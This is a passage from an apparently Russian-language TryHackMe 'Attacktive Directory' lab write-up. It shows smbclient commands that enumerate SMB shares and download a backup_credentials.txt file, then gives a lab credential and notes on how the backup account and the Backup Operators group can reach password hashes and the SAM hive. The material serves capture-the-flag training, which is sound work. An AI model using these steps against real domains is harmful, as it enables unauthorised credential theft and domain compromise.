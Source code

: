 # SMB recon
```
smbclient -L spookysec.local -U spookysec.local
```

```
smbclient \\\\spookysec.local\\backup --user svc-admin
Password for [WORKGROUP\svc-admin]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Apr  4 15:08:39 2020
  ..                                  D        0  Sat Apr  4 15:08:39 2020
  backup_credentials.txt              A       48  Sat Apr  4 15:08:53 2020

                8247551 blocks of size 4096. 3665226 blocks available
smb: \> get backup_credentials.txt
getting file \backup_credentials.txt of size 48 as backup_credentials.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \> exit
```
![Attacktivedirectory](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/AttacktiveDirectory/screenshots/20250504201030.png)

# LPE DC

> [!NOTE]
> Теперь, когда у нас есть новые учетные данные пользователя, у нас может быть больше привилегий в системе, чем раньше. Имя пользователя учетной записи "backup" заставляет нас задуматься. Для чего эта учетная запись резервного копирования?
> 
> Ну, это резервная учетная запись для контроллера домена. Эта учетная запись имеет уникальное разрешение, которое позволяет синхронизировать все изменения Active Directory с этой учетной записью пользователя. Это включает хэши паролей

backup@spookysec.local:backup2517860
### **Членство в группе "Backup Operators"**

> [!NOTE]
> По умолчанию входит в группу **"Backup Operators"**, которая имеет права:
> - Чтение любых файлов на контроллере домена (даже без явных разрешений)
> - Запуск системных инструментов резервного копирования (ntbackup, wbadmin, VSS)
> - Доступ к веткам реестра **HKLM** (включая SAM)
